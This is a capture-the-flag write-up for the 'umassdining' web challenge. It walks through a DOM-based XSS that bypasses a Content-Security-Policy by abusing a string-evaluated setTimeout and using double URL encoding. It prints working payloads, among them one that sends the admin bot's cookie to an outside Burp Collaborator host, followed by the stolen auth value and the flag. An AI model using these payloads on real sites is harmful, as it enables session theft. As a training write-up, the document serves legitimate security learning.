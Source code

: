 # umassdining

Categories: Web

Description:
> I heard there are these weirdos who love UMASS dining a little bit too much. Can you infilitrate their secret society and get their super secret flag for me?

## Takeaways

DOM-based XSS. Finally a use-case for double encoding.

## Solution

In this challenge we are given the source code. As we can see from the source, we need to reach `/join` to get the flag, but that is only possible if we have the correct admin `auth` cookie. So, we somehow have to leak it. The app also has Content-Security-Policy (CSP) enabled, which is set to `"default-src 'self';script-src 'self' 'unsafe-eval'"`. So, it seems that somehow invoking an `eval` with attacker-controlled data should be our way to go here.

There seems to be an admin bot. The user submits essays at the `/register` endpoint via POST requests, with the parameters `email` and `essay`. Then, the bot will visit the URL `/review/essay?email={email}&essay={essay}` which is only accessible from `127.0.0.1`.

A first attempt to bypass the IP restriction was by using the `x-forwarded-for` and similar headers, but this didn't work.

The next thing to note is how the user-controlled parameters are handled. The `/review/essay` will get its contents by populating `essay_checker.html` and in this template file we notice the expression `{{essay.essay|safe}}`. This means that this parameter will not be escaped and is assumed to be already safe. So, the `essay` variable allows us for an XSS attack:

```
POST /register

email=asd%40foo.com&essay=<script>alert(1)</script>
```

Results in the  `GET review/essay?email=asd@foo.com&essay=<script>alert(1)</script>` by the admin bot. However, the bot will not get XSSed, because of CSP. Instead, the following message will be displayed in console: `Content Security Policy: The page’s settings blocked the loading of a resource at inline (“script-src”)`. So we have to somehow circumvent CSP.

Looking at the source code, we notice this bizarre javascript

```javascript
var iloveumass = document.getElementById("debug").getAttribute("data-iloveumass");
function say_something(words) {
    setTimeout(`console.log('${words}')`,500)
}
document.addEventListener("DOMContentLoaded", function() {
    say_something(iloveumass)
});
```

So, when the document has been loaded and parsed, ``setTimeout(`console.log('${words}')`,500)`` is invoked, where the `words=document.getElementById("debug").getAttribute("data-iloveumass");`. What is *evil* here, is the [setTimeout function](https://developer.mozilla.org/en-US/docs/web/api/settimeout#passing_string_literals) with a string parameter. As the documentation states:

> Passing a string instead of a function to setTimeout() has the same problems as using eval().

And here we are passing a string. Also notice that `eval()` is allowed by the current CSP policy. So, we just have to inject the thing.js script and an HTML element with id `debug` and attribute `data-iloveumass` which will hold our XSS payload. The following `essay` value will trigger an `alert(1)` on the bot:

`<p id="debug"  data-iloveumass="'); alert(1); //"></p> <script src=/static/js/thing.js></script>`

So the request is:

```
POST /register

email=asd%40foo.com&essay=<p+id%3d"debug"++data-iloveumass%3d"')%3b+alert(1)%3b+//"></p>+<script+src%3d/static/js/thing.js></script>
```

We modify the above payload to instead leak the admin's cookie:

`<p id="debug"  data-iloveumass="'); window.location = 'http://nb20aa7dkwzrirpv5qa71lnleck28r.burpcollaborator.net/cookie='+encodeURIComponent(btoa(document.cookie)); //"></p> <script src=/static/js/thing.js></script>`

We use `window.location` here as because of the CSP, the bot is not allowed to make requests to other origins. So, for example `<img src=x onerror=xss>` is not allowed. Also inline scripts, like `<script>xss</script>` are not allowed. So, the final request is:

```
POST /register

email=asd%40foo.com&essay=<p%2bid%253d"debug"%2b%2bdata-iloveumass%253d"')%253b%2bwindow.location%2b%253d%2b'http%253a//nb20aa7dkwzrirpv5qa71lnleck28r.burpcollaborator.net/cookie%253d'%252bencodeURIComponent(btoa(document.cookie))%253b%2b//"></p>%2b<script%2bsrc%253d/static/js/thing.js></script>
```

Notice the double encoding of all the characters. The first encoding is for the current request that we are making. Then, when the bot will make the request, it will decode the characters once more. So, after the first decoding, the bot will do the following request:

```
GET /review/essay?email=asd@foo.com&essay=<p+id%3d"debug"++data-iloveumass%3d"')%3b+window.location+%3d+'http%3a//nb20aa7dkwzrirpv5qa71lnleck28r.burpcollaborator.net/cookie%3d'%2bencodeURIComponent(btoa(document.cookie))%3b+//"></p>+<script+src%3d/static/js/thing.js></script>
```

So, the double encoding ensures that our payload is correctly formatted when the bot makes the `GET` request. If we had only encoded our payload once, then the `+` in the string concatenation would have been interpreted as a space character when the bot would make the request.

Now, checking back to our callback URL, we see the request `GET /cookie=YXV0aD1WRWd4VXpGVFJEUlRWVkF6VWxNelExSXpWRFJFVFRGT1F6QXdTMGt6VERCTUlR`. The decoded value is `auth=VEgxUzFTRDRTVVAzUlMzQ1IzVDRETTFOQzAwS0kzTDBMIQ`. So, we set the cookie in our browser and visit `/join`. Then, we are presented with the flag:

`UMASS{NUMB3R_0N3_1N_$TUD3NT_D1N1NG_XD86543267!}`
